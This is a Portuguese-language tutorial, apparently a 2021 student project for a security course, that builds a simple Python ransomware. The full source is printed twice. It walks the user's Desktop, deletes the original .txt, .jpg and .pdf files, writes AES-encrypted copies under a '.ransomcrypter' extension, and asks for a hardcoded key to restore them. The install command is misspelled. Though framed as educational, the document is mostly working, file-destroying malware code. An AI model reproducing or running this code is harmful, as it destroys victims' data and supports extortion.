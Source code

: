 # Ransomware

Hoje faremos um ransomware simples, que é um tipo de vírus que bloqueia dados do computador da vitima e pede resgate para que eles voltem a ser acessíveis. 


     Começaremos  importando as bibliotecas necessárias para a criação do código;

para isso vá em seu terminal de preferência e importe a biblioteca "pyaes" com:

```bash
pip isntall pyes
```

     

E agora coloque em seu código as bibliotecas necessárias: 

```python
import os
import glob
import pyaes
from pathlib import Path
```

     Coloque agora as extensões que deseja criptografar:

```python
lista_arq = ["*.txt"] #*.jpg","*.txt","*.pdf","*.png","*.mp3","*.mp4
```

     Usando a biblioteca **path** e **os** caminhamos pelo sistema (Desktop) para fazer a verificação dos arquivos:

```python
try:
    desktop = Path.home() / "Desktop"

except Exception:
    pass

os.chdir(desktop)
```

     Aqui definimos a função ***`encode`*** para criptografar os arquivos mais tarde, e começamos a usar a biblioteca **PyAES** para isso, apagamos o arquivo original e substituímos por um novo criptografado, e também estabelecemos uma chave de 16bits para recuperação dos arquivos:

```python
def encode():
    for files in lista_arq:
        for format_file in glob.glob(files):
            print(format_file) 
            f = open(f'{desktop}//{format_file}', 'rb')
            file_data = f.read()
            f.close()
		
		#Apagando arquivo original
            os.remove(f'{desktop}//{format_file}')
            key = b"1a2b3c4d5e7f8g9h"
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)

                #Salvando novo arquivo
            new_file = format_file + ".ransomcrypter"
            new_file = open(f'{desktop}//{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
```

     Logo após criamos a função ***`decode`*** que tem o papel de descriptografar os arquivos fazendo uso da chave que estabelecemos a cima:

```python
def decode(decrypt_file):
    try:
        for file in glob.glob('*.ransomcrypter'):

            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)
            decrypt_data = daes.decrypt(file_data)

            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]

            dnew_file = open(f'{desktop}//{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida!')
```

     Agora vamos para a parte que interessa, onde ransomware age, fazemos a chamada da função ***`encode`*** para criptografar e depois pedimos a chave, se estiver correta chamamos a função ***`decode`*** para que os arquivos sejam descriptografados:

```python
if __name__ == '__main__':
    encode()
    if encode:
        key = input('Seus arquivos foram criptografados, insira a chave para liberação:')
        if key == '1a2b3c4d5e7f8g9h':
            decode(key)
            for del_file in glob.glob('*.ransomcrypter'):
                os.remove(f'{desktop}//{del_file}')
        else:
            print('Chave inválida!')
```

E assim temos nosso Ransomware pronto para uso educacional.

Código completo:

```python
import os
import glob
import pyaes
from pathlib import Path

lista_arq = ["*.jpg","*.txt", "*.pdf"] #*.jpg","*.txt","*.pdf","*.png","*.mp3","*.mp4

#Entra no desktop e faz a verificacao
try:
    desktop = Path.home() / "Desktop"

except Exception:
    pass

os.chdir(desktop)

def encode():
    for files in lista_arq:
        for format_file in glob.glob(files):
            print(format_file) 
            f = open(f'{desktop}//{format_file}', 'rb')
            file_data = f.read()
            f.close()

            os.remove(f'{desktop}//{format_file}')
            key = b"1a2b3c4d5e7f8g9h"
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)

                #Salvando novo arquivo
            new_file = format_file + ".ransomcrypter"
            new_file = open(f'{desktop}//{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()

def decode(decrypt_file):
    try:
        for file in glob.glob('*.ransomcrypter'):

            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)
            decrypt_data = daes.decrypt(file_data)

            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]

            dnew_file = open(f'{desktop}//{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida!')

if __name__ == '__main__':
    encode()
    if encode:
        key = input('Seus arquivos foram criptografados, insira a chave para liberação:')
        if key == '1a2b3c4d5e7f8g9h':
            decode(key)
            for del_file in glob.glob('*.ransomcrypter'):
                os.remove(f'{desktop}//{del_file}')
        else:
            print('Chave inválida!')
```

exemplo em pratica - https://www.youtube.com/watch?v=zcVyp37t_J0

Development and Code for Security - Fabio Cabrini

Global Solutions - 2021

Grupo G

Gabriel Martire Bega         87442    
Enzo Aparecido Viana         88883   
Arthur de Oliveira           89187    
Lucas Venancio Coutinho      89257   
Weslley Leandro Ribeiro      88925   
Vinicius Fernandes           89369
